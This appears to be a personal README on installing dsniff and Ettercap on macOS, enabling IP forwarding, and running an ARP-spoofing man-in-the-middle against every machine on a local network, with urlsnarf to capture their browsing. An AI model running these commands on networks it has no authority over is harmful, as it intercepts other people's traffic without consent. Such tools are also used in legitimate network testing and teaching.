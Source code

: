 # Dsniff/Ettercap on Mac 


## Installation 

`brew install dnsiff` fails due to some issue with Berkley DB.
Hence I compilied a tweaked version of (Dug Song's dsniff tools)[https://monkey.org/~dugsong/dsniff/] ,

```sh
git clone https://github.com/ggreer/dsniff.git
```

Made Sure I had all the dependencies are installed by doing :
```sh
brew install homebrew/dupes/libpcap
brew install berkeley-db libnet libnids openssl
```

Now I installed it by following commands :
```sh
./configure \
  --with-libpcap=/usr/local/opt/libpcap \
  --with-openssl=/usr/local/opt/openssl \
  --with-libnet=/usr/local/opt/libnet \
  --with-libnids=/usr/local/opt/libnids \
  --with-x

make
make install
```

Verifying the installation :

```sh
arpspoof
> Version: 2.4
> Usage: arpspoof [-i interface] [-t target] host
```


## IP Forwarding on Mac

Original Value is 0 for net.inet.ip.forwarding/net.inet.ip.fw.enable amke it to 1

```sh
sudo sysctl -w net.inet.ip.forwarding=1
> Password:
> net.inet.ip.forwarding: 0 -> 1
```

```sh
sudo sysctl -w net.inet.ip.fw.enable=1
Password:
sysctl: unknown oid 'net.inet.ip.fw.enable'
```



## Ettercap

```sh
brew install ettercap
```



# Useage : 

To collect data form all the machines in the local network,

```sh
sudo ettercap -E -T -i en1 -Q -M arp /// ///
```

```sh
sudo urlsnarf -i en1
```
Note : the above command without before running ettercap command will give data form localhost machine only

We can check the the list of machines on local network as :

```sh
arp -a
```


# Reference :

* https://github.com/ggreer/dsniff
* http://hackvault.blogspot.in/2014/08/dsniff-and-arpspoof-on-mac.html
